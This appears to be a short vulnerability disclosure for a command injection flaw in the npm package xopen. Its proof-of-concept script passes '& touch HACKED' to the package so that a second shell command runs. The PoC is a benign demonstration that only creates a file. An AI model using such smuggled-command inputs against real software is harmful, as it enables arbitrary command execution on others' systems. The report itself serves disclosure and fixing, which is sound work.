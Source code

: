 # Description

Command Injection in xopen

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var xopen =require("xopen");
xopen("& touch HACKED");
```

2. Execute the following commands in terminal:

```
npm i xopen # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.
